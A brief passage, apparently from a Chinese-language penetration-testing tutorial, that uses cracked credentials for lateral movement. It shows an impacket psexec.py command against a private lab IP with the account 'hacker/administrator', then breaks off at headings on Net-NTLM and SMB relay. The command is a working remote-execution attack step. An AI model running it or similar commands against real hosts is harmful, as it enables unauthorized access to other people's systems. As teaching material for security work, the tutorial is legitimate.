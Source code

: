 [![](assets/1701222524-3e2b7fedc09b758d196e6d3568f3636d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128143329-0b3f442c-8db8-1.png)  
通过破解的账户与密码我们即可进行横向移动连接远程主机了：

```bash
./psexec.py hacker/administrator:'admin'@192.168.188.3
```

[![](assets/1701222524-775a440f99cc15c90f565d8e86b28daa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128143353-194213e2-8db8-1.png)

## Net-NTLM Relay

### SMB 中继
